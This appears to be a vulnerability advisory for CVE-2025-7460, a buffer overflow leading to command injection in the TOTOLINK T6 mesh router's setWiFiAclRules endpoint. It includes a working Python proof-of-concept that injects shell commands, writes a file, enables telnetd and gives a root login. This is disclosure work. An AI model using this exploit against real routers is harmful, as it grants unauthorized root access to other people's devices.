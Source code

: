 # [CVE-2025-7460](https://www.cve.org/CVERecord?id=CVE-2025-7460)

# Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** [T6](https://www.totolink.net/home/menu/newstpl/menu_newstpl/products/id/190.html)

**Affected firmware version:** V4.1.5cu.748_B20211015

**Firmware download address:** [Download Page](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/190/ids/36.html)

# Overview

TOTOLINK Mesh Wifi T6 router has a buffer overflow vulnerability that lead to command injection. This vulnerability can be triggered through the topicurl `setWiFiAclRules`. An attacker can implement a RCE attack by sending a malicious HTTP POST request.

# Vulnerability details

The `mac` parameter can cause a buffer overflow of `local_mac` due to the lack of length validation.

![image-1](1/1.png)

Buffer `local_mac` can overflow to buffer `wlan_interface_1`

![image-2](1/2.png)

So that we can control buffer `wlan_interface_1` to trigger command injection

![image-2](1/3.png)

# POC

```python
import requests, time, sys, os
import socket
import http.server
import socketserver
import threading

def execute_short_command(target_ip, cmd):
    http_sv = "http://%s/cgi-bin/cstecgi.cgi" % target_ip
    
    payload = '''
    {
        "topicurl":"setWiFiAclRules",
        "addEffect":"2",
        "mac":"AAAAAAAAAAAAAAAA;%s;"
    }
    ''' % cmd
    
    res = requests.post(http_sv, data=payload)
    
    if res.status_code == 200:
        return True
    else:
        return False
        
def enable_telnetd(target_ip):
    return execute_short_command(target_ip, "telnetd")

def write_file(target_ip, script, file_path):
    http_sv = "http://%s/cgi-bin/cstecgi.cgi" % target_ip
    
    for c in script:
        payload = "echo -n '%s'>>%s" % (c, file_path)
        execute_short_command(target_ip, payload)
        
if __name__ == "__main__":
    if len(sys.argv) != 3:
        print("[-] Usage: <%s> target_ip my_ip" % sys.argv[0])
        exit(0)
    
    target_ip = sys.argv[1]
    my_ip = sys.argv[2]
    
    execute_short_command(target_ip, "rm /tmp/n")
    print("[+] Writing file. Please wait...")
    
    write_file(target_ip, "pwned by Elvis!!!", "/tmp/n")
    
    print("[+] File Wrote. Check '/tmp/n' file")
    
    enable_telnetd(target_ip)
    print("[+] BOF -> Command injection turn telnetd on. Try root/KL@UHeZ0")
```

[Video](https://www.youtube.com/watch?v=x_Qc6wtcdbk)

